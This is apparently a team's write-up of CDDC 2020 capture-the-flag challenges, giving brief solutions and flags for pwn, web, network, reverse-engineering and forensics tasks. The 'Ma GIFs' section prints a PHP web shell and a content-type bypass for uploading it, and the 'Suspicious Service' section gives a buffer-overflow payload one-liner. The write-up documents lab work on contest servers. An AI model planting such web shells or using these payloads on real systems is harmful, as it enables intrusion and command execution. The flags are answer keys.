## [Pwn (Linux)-1] nc

**Challenge**

Hello PwnWorld!

nc.chall.cddc20.nshc.sg 10000

**Solution**

    nc nc.chall.cddc20.nshc.sg 10000

**Flag**
```
CDDC20{NiceToMeetYou@PwnWorld}
```

## [Pwn (Linux)-2] (2^31)-1

**Challenge**

I like zer0.

zer0.chall.cddc20.nshc.sg 20002

**Solution**

We know max is: (2^32)-1 = 4294967296 - 1

Using netcat and putting the maximum limit, we get the flag!



**Flag**

```
CDDC20{oO0OoO0o0OoO0Oo}
```

## [Pwn (Linux)-3] Find Singapore Bug

**Challenge**

Let's FSB!

fsb.chall.cddc2020.nshc.sg 30303

**Solution**

Format String Bug. We had to leak the stack from the program. After getting the dump, we changed the hex to ascii, changed the endianness and got the flag!





**Flag**

```
CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}
```

## [Network-1] Baby Shark

**Challenge**

Recently the Resistance Fighters have discovered this new thing called Wireshark, it seems to be some kind of tool used for analysing network packets.

We tried to capture a little snippet of traffic while browsing the web just to check out its capabilities. Let's check out what it can do.

Attached Files: [easy.pcap](./attached_files/easy.pcap)

**Solution**

Wireshark Export Objects, Confidential.pdf

**Flag**

```
CDDC20{TLP_RED_EYES_ONLY}
```

## [Network-2] Mama Shark

**Challenge**

We have received a new packet for analysis.

Oh damn, there's too much more traffic to look through.. Is there a shortcut to find what we're looking for immediately?

Attached Files: [noisy.pcap](./attached_files/noisy.pcap)

**Solution**

Follow http stream and use the find function  

**Flag**

```
CDDC20{JUST_GIVE_ME_TL:DR}
```


## [Web-1] No Time

**Challenge**

Our project manager couldn't handle the stress from the upcoming deadlines and resigned hastily. Sigh. Now that we are taking over his projects, I wonder if he has left any instructions for us...

http://notime.chall.cddc20.nshc.sg:1337/

**Solution**

Inspect element

**Flag**

```
CDDC20{N0_71m3_nO_tiMe_oMG}
```

## [Web-2] VulnLogin

**Challenge**

This is not how you log someone in!

http://vulnlogin.chall.cddc2020.nshc.sg:8090/

Note: Flag format is CDDC20{username_password}

**Solution**

Inspect element gave us the MD5 hashes of the login credentials, which we used Crackstation to crack the hashes.



Crackstation tool used to crack the hashes.



**Flag**

```
CDDC20{administrator_password12345678}
```


## [Misc-2] ARGH

**Challenge**

I found a binary, together with this long string that looks like some password. I wonder what is it for...

Key: GZ2gXZ3bD2qqNyNxXb5LJ8HfHQtTL5VHA

Attached Files: [myprog](./attached_files/myprog)

**Solution**

Pass the given key to the program to get the flag



**Flag**

```
CDDC20{c0mManD_l1n3_ArguM3n75sSs}
```


## [RE (Windows)-2] Dissect Me

**Challenge**

LET THE GAMES BEGIN!

Attached Files: [DissectMe.exe](./attached_files/DissectMe.exe)

**Solution**

Using ghidra to search for the string showed the flag



**Flag**

```
CDDC20{UR-di$$ector}
```

## [RE (Windows)-3] Cheat Me

**Challenge**

Be patient :) Then you can get what you want.

Attached Files: [CheatMe.exe](./attached_files/CheatMe.exe)

**Solution**

Use Cheat Engine to scan for the values of the hours, minutes and seconds and change the values to "0", which would show the flag once the time ran out

**Flag**

```
CDDC20{T1ck-T0ck_T1ck-T0ck}
```


## Visual Noise

**Challenge**

I intercepted some emails from Unduplicitous Corp, that had these pictures attached to them. Looks like visual noise but then again, I can't be sure....

Attached Files: [so-noisy.png](./attached_files/so-noisy.png)
Attached Files: [much-confusing.png](./attached_files/much-confusing.png)

**Solution**

Tool used: https://www.diffchecker.com/image-diff


**Flag**

```
CDDC20{V1suAl_CrYPT0_iS_s0_53cuRE}
```

## Ma GIFs

**Challenge**

Well apparently, the CTO of Unduplicitous Corp love, love, LOVE GIFs! ;)

http://magifs.chall.cddc2020.nshc.sg:13373/

**Solution**

upload a php file 

```php
    <?php
        $cmd = $_GET['cmd'];
        system($cmd)
    ?>
```

Use burp suite to change the file type from application/php to image/gif

Once php file uploaded, go to http://magifs.chall.cddc2020.nshc.sg:13373/uploads/filename.php?cmd=grep%20-r%20%2220%22%20/var/ to find the flag



**Flag**

```
CDDC20{w0W_u_hAz_FlaG!!h3he}
```

## ilovedes

**Challenge**

I heard that the CFO of Unduplicitous Corp loves using DES to encrypt his data, LOL.

Attached Files: [secret.dat](./attached_files/secret.dat)

**Solution**

Tool used: http://des.online-domain-tools.com/



The key was in the challenge description.

**Flag**

```
CDDC20{i_l0v3_5yMmetR1c_EnCryp7i0N}
```


## Secret Code

**Challenge**

What is the SECRET CODE?

Attached Files: [SecretCode](./attached_files/SecretCode)

**Solution**

Reverse engineering using Ghidra




**Flag**

```
CDDC20{E4syR3v3rS1ng~}
```

## What Time Is It? [1]

**Challenge**

What time is it?

2005.10.06 05:23:15

2020.10.05 22:39:46

2020.08.29 05:16:57

2020.08.12 10:05:39

2020.09.29 06:36:38

2020.09.27 00:41:56

2020.09.30 18:43:24

2020.08.10 03:54:13

2020.09.24 00:09:37

2020.09.16 09:20:23

2020.08.10 22:06:44

2020.08.10 23:19:09

2020.08.13 22:08:52

1987.04.11 00:43:13

**Solution**

Unix timestamps and conversion to plaintext.

**Flag**

```
CDDC20{_ItI_sN3_ver_Too_Lat_eT0_Ask_Wha_tT1_me1_tI5_!!}
```

## Between 0&1

**Challenge**

While Unduplicitous Corp was conducting Incident Response on several legacy PCs, our trusty Insider, Resistance Fighter XAE found some weird activity on the PC.

Let's investigate.

Attached Files: dump

**Solution**

Volatility used to analyse the dump and the dump was converted from binary to text.
Use imageinfo plugin, found profile=WinXPSP2x86
Use consoles plugin, there is some 0s & 1s
Convert it from binary to text to get the flag.

**Flag**

```
CDDC20{Ev1dence_H1dden_Between_0&1}
```

## Suspicious Service

**Challenge**

While conducting reconnaissance on Unduplicitous Corp, we found a suspicious service. Let's figure out what this is.

ss.chall.cddc2020.nshc.sg 7777

Attached Files: [SuspiciousSvc](./attached_files/SuspiciousSvc)

**Solution**

Reverse engineering and buffer exploitation
python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | ./SUSsvc
Replace “./SUSsvc” with the netcat to the server. Flag will be returned

**Flag**

```
CDDC20{BufferrrrrrrrrOverflowwwwwwwwwwwwwwwwwwwww}
```

